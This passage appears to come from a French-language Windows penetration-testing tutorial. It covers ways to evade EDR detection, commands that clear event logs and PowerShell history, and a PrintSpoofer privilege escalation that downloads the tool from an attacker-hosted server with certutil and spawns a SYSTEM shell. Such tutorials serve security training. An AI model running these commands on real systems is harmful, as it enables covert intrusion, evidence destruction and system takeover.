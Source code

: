 #### Techniques pour réduire la détection

1. **Évitez PowerShell si surveillé** : Utilisez des alternatives comme MSBuild ou installutil.
2. **Limitez les échecs d'authentification** : Ils génèrent des alertes.
3. **Préférez les techniques en mémoire** : Évitez d'écrire sur le disque si possible.
4. **Utilisez des outils légitimes** : Les outils natifs de Windows sont moins suspects.
5. **Évitez les connexions réseau inutiles** : Elles peuvent être détectées par les EDR.

#### Nettoyage

```powershell
# Effacer les journaux d'événements (nécessite des privilèges administratifs)
wevtutil cl Security
wevtutil cl System
wevtutil cl Application

# Effacer l'historique PowerShell
Remove-Item (Get-PSReadlineOption).HistorySavePath

# Supprimer les fichiers temporaires
Remove-Item C:\Users\Public\*.exe
```

Cependant, notez que la suppression des journaux est généralement déconseillée car :
- Elle peut déclencher des alertes
- Elle est souvent détectée par les solutions SIEM
- Elle peut violer les règles d'engagement

### 3.5 Exemple pratique : Escalade via PrintSpoofer

Supposons que nous ayons obtenu un accès à un système Windows en tant qu'utilisateur avec le privilège SeImpersonatePrivilege :

```powershell
whoami /priv
# Résultat : SeImpersonatePrivilege Enabled
```

Nous pouvons exploiter ce privilège avec PrintSpoofer :

1. Télécharger PrintSpoofer sur la machine cible :
```powershell
# Sur la machine attaquante, héberger PrintSpoofer
python -m http.server 8080

# Sur la machine cible, télécharger PrintSpoofer
certutil -urlcache -f http://10.10.10.10:8080/PrintSpoofer.exe C:\Users\Public\ps.exe
```

2. Exécuter PrintSpoofer pour obtenir un shell SYSTEM :
```powershell
C:\Users\Public\ps.exe -i -c cmd
```

3. Vérifier les privilèges :
```powershell
whoami
# Résultat : NT AUTHORITY\SYSTEM
```
